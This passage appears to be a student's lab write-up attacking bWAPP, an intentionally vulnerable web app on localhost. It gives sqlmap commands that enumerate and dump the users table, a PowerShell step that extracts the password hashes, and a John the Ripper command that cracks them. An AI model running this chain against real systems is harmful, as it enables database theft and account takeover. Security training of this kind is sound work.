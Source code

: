 | SESSION_VARIABLES                                   |
| STATISTICS                                          |
| TABLESPACES                                         |
| TABLE_CONSTRAINTS                                   |
| TABLE_PRIVILEGES                                    |
| USER_PRIVILEGES                                     |
| VIEWS                                              |
| COLUMNS                                            |
| ENGINES                                            |
| EVENTS                                             |
| PARTITIONS                                         |
| PLUGINS                                            |
| PROCESSLIST                                        |
| TABLES                                             |
| TRIGGERS                                           |



Get the columns in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --columns
```
![columns in users](https://github.com/user-attachments/assets/33feaf68-dce9-4390-b925-f38b33e26bee)

Get all users in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --dump
```
![users info](https://github.com/user-attachments/assets/5a609702-ac37-4e04-adc0-7b2386d52871)
![users info 2](https://github.com/user-attachments/assets/49834e33-b153-4f75-bf7b-22f5b176f6d4)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
Extract the hashed password collected users from the previous question
```bash
Import-Csv "C:\Users\ADMIN\AppData\Local\sqlmap\output\localhost\dump\bWAPP\users.csv" | ForEach-Object { $_.'password' } | Out-File -FilePath "C:\Users\ADMIN\Downloads\passwords.txt"
```
Output
![hashed stored](https://github.com/user-attachments/assets/d6927cdf-e99f-4026-9d38-422ea894a01b)
![Output stored](https://github.com/user-attachments/assets/1cd28001-6256-47e6-944f-c218788ede24)

Remove the decrypted password from the file

Use John the Ripper to crack the password
```bash
.\john --format=Raw-SHA1 C:\Users\ADMIN\Downloads\passwords.txt
```
![cracked passwords using john](https://github.com/user-attachments/assets/e72e0f3f-b843-4b7f-8db7-906bf9c250a5)
